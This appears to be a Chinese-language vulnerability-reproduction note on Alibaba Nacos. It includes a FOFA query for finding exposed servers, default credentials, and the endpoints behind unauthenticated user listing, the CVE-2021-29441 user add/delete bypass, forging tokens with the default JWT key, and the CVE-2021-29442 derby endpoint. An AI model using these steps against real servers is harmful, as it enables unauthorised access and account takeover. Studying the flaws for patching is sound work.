







### 环境配置

nacos是阿里的：服务注册、配置中心平台

入口：`console/src/main/java/Nacos.java`

- 报错：错误：不支持发行版本 6

说明有的地方识别并锁定了1.6版本

在nacos-console的pom.xml中添加

```
<properties>
        <maven.compiler.source>1.8</maven.compiler.source>
        <maven.compiler.target>1.8</maven.compiler.target>
</properties>
```

并且编辑编译规则：`settings-Java Compiler`中统一为1.8版本

- fofa测绘语句

```
app="nacos" && port="8848" || icon_hash="13942501"||icon_hash="1227052603" && port="8848"
```

- 获取版本信息

```
/nacos/v1/console/server/state
```

- 默认口令

```
nacos / nacos
```


### 未授权查看用户信息

在`/console/src/main/resources/application.properties`中开启了总健全`nacos.core.auth.enabled=false`或添加路径的白名单

```
nacos.security.ignore.urls=.../v1/auth/**,/v1/console/health/**,/actuator/**,/v1/console/server/**
```

并且有数据库的设备

```
/nacos/v1/auth/users?pageNo=1&pageSize=9
```

可能会报错，根据报错去重新查找

```
/nacos/v1/auth/users?pageNo=1&pageSize=9&search=blur
```





### User-Agent绕过

**CVE-2021-29441** 触发版本：`1.2.0 <= Nacos < 1.4.1`

配置可能有白名单就会触发

能够实现添加和删除用户

```
/nacos/v1/auth/users?pageNo=1&pageSize=100
```

还是这个接口，改为post后可以实现添加/删除用户



请求方法改为DELETE后即可删除用户

### 默认jwt密钥

触发版本：`0.1.0 <= Nacos <= 2.1.0`

**jwt**：校验登录成功的用户

在开启了`auth.enabled`的情况下，如果未修改默认`nacos.core.auth.default.token.secret.key`的值，可以通过accessToken值来绕过权限

首先申请一个时间戳，防止过期

```
https://tool.lu/timestamp/
```



获取`1878880296`

在jwt官网拼接通行证

```
https://www.jwt.io/
```



得到这个accessToken可以使用这个token再次请求后端服务器，并通过这个用户身份登录



能够绕过原来的403，获取任意账密


### 未授权接口命令执行

**CVE-2021-29442** 受影响版本：`nacos <= 1.4.0`

必须使用内置存储模式，不能外接mysql等

而且`/v1/cs/ops/derby`暴露且可以访问




